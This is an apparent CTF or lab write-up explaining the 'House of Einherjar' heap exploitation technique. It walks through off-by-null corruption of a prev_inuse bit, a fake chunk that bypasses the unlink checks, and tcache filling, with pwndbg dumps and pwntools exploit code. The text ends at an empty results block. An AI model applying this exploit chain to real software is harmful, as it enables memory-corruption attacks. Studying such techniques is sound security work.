 ## What do we do:
1. Create 3 chunks, chunk A, B and C 
2. Their sizes need to be chosen carefully, chunk B's size cannot be larger than chunk A's size. Chunk A better have a little bit more size for the fake chunk. Chunk C's size has to be a multiple of 0x100. i.e. 0x100, 0x200, 0x300, etc. So that we can corrupt the flag bits that indicates whether the previos chunk is in use, without corrupt the size itself. For example, if the size is 0x81 (with 1 indicating that the previous chunk is in use). A null byte overwrites would make 0x81 to 0x00 directly, which corrupts its size completely and might cause problems. An example of working combination of sizes is: 0x40, 0x30, 0x100
3. Create a fake chunk within chunk A. Inside chunk A, we create a fake chunk like this:
```
pwndbg> tele 0x564de557b2b0 
00:0000│  0x564de557b2b0 ◂— 0
01:0008│  0x564de557b2b8 ◂— 0x41 /* 'A' */
02:0010│  0x564de557b2c0 ◂— 0
03:0018│  0x564de557b2c8 ◂— 0x60 /* '`' */
04:0020│  0x564de557b2d0 —▸ 0x564de557b2c0 ◂— 0
05:0028│  0x564de557b2d8 —▸ 0x564de557b2c0 ◂— 0
```
Where `0x564de557b2c0` is the starting address of the fake chunk. `0x564de557b2c8` is the size field of the fake chunk. `0x564de557b2d0` and `0x564de557b2d8` is the `fd` and `bk` pointers of the fake chunk. Since the first very chunk we planned to put into the unsortedbin is our fake chunk consolidated with chunk C. `fd` and `bk` pointers should point to itself to bypass the unlink checks:. This is why we need a heap leak here. 
4. Write the last 8 bytes of chunk B to be the 0x60, the fake size of the fake chunk. Also make sure that `prev_size` field minus the size (e.g. 0x60) is exactly where our fake chunk starts. At the same time make sure overwriting flag bits of the size field of chunk C from beign something like 0x101 to 0x100 with our 1 null byte overflow.
This is how `1-4` would look like in the python script:
```py
# house of einhejar
p.sendline("malloc 1 50") # chunk a 0x40 bytes
p.sendline("malloc 2 40") # chunk b 0x30 bytes
p.sendline("malloc 3 248") # chunk c 0x100 bytes

# creating a fake chunk and overflowing the size fields of C
p.sendline("read_copy 1")
p.sendline(p64(0) + p64(0x60) + p64(chunk_addr) + p64(chunk_addr))
p.sendline("read_copy 2")
p.sendline(b'B' * 0x20 + p64(0x60))
```
where `read_copy` is the function that read user input into the heap chunk but appends a null byte at the end and causes off-by-null. 
5. Free chunk C which is now mistakenly thinking that the fake chunk inside chunk A is currently the previous chunk and is freed. So freeing chunk C would make chunk C consolidate with the fake chunk that is in chunk A. So with fake size being 0x60 and the real size of chunk C being 0x100. The size of the freed chunk would be 0x160. And the starting location of that freed chunk is where the fake chunk starts within chunk A.
6. Since we wish to have our consolidated fake chunk lands in unsortedbin. We need to fill the tcachebin with the size of chunk C. So that at the moment chunk C is freed. It goes to unsortedbin and thus it would consolidate with fake chunk which has the structure as an unsortedbin chunk and being `not_in_use` (corrupted flag bits)
The process in python looks like:
```py
# filling up tcache so that it goes into unsortedbin
for i in range(4, 11):
	p.sendline(f"malloc {i} 248")
for i in range(4, 11):
	p.sendline(f"free {i}")
# freeing chunk C and it starts to consolidate now!
p.sendline("free 3")
```
Results:
```
```